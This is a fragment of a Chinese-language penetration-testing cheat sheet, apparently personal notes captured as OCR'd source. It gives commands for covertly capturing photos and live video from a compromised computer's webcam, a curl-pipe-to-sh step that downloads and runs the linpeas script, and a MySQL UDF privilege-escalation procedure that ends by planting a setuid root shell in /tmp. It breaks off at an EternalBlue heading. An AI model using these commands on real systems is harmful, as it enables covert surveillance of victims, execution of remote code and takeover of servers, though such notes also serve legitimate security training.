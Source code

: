 **开启摄像头**

```bash
# 查看对方电脑上的摄像头
webcam_list
# 用摄像头拍照
web_cam snap
# 用摄像头开启实时视频聊天
web_cam stream
```

### PEASS-ng的使用

支持Windows、MacOS、Linux

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/download/20231002-59c6f6e6/linpeas.sh | sh
# -L 是跟踪重定向
```

## 权限提升

### Linux提权

#### Mysql-UDF提权

```bash
searchsploit mysql udf -m 1518
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
 * /tmp/rootbash -
```

### Windows提权

TODO...

## 常用的漏洞

### MS17-010（永恒之蓝）漏洞
